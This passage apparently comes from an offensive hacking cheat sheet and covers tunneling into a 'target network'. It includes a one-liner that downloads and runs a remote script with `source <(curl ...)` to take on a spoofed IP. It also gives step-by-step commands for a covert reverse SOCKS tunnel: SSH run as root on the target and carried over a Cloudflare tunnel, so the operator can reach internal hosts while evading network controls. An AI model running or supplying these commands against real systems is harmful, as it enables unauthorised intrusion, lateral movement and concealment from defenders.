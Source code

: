 ```sh
source <(curl -fsSL https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet/raw/master/tools/ghostip.sh)
```

This also works in combination with:
 * [Segfault's ROOT Servers](https://thc.org/segfault/wireguard): Will connect your ROOT Server to the TARGET NETWORK and using a Ghost IP inside the target network.
 * [QEMU Tunnels](https://securelist.com/network-tunneling-with-qemu/111803/): As above, but less secure.

---
<a id="tunnel-more"></a>
**3.vi.d Various Tunnel Tricks**

### Tunnel via CDN
 * Read [How to tunnel any TCP service via CloudFlare](https://iq.thc.org/tunnel-via-cloudflare-to-any-tcp-service) or use [DarkFlare](https://github.com/doxx/darkflare).

### Connect your host directly to the remote network
 * [WireTap](https://github.com/sandialabs/wiretap) - Works as user or root. Uses UDP as transport. ([Try it](https://thc.org/segfault/wireguard) on segfault.)
 * [ligolo-ng](https://github.com/nicocha30/ligolo-ng) - Uses TCP as transport. Works well via [cloudflare CDN](https://iq.thc.org/tunnel-via-cloudflare-to-any-tcp-service) or gs-netcat.

### Use SSH as a cheap reverse proxy via Cloudflare

This method is similar to [HTTPS reverse tunnels](#https) but uses SSH instead of Gost or websocat.
- Advantage: Only uses *cloudflared* and *SSH* on the target.
- Disadvantage: Needs a CF subscription.

 1. Go to your CF Dashboard -> Zero Trust -> Networks -> Tunnels
 2. Create a new 'Cloudflared' tunnel of any name.
 3. Select Debian & 64-bit. The Token is not fully shown. Extract the "Token" by copying the grayed out area into a separate document to reveal the entire Token (the long hex-strings after `sudo cloudflared service install <TunnelTokenHere>`).
 4. Add a subdomain (example uses `ssh.team-teso.net`).
 5. Set Type=TCP URL=localhost:22

```shell
### On YOUR workstation:
cloudflared tunnel run --token TunnelTokenHere
```

```shell
### On the TARGET, create a reverse-SOCKS connection with SSH over Cloudflare:
ssh -o ProxyCommand="cloudflared access tcp --hostname ssh.team-teso.net" root@0 -R 1080
```

```shell
### On your workstation, connect to _any_ host within the target network (example: ipinfo.io)
curl -x socks5h://0 https://ipinfo.io
```
Use [ProxyChains or GrafTCP to tunnel](#scan-proxy) other protocols via the reverse proxy.
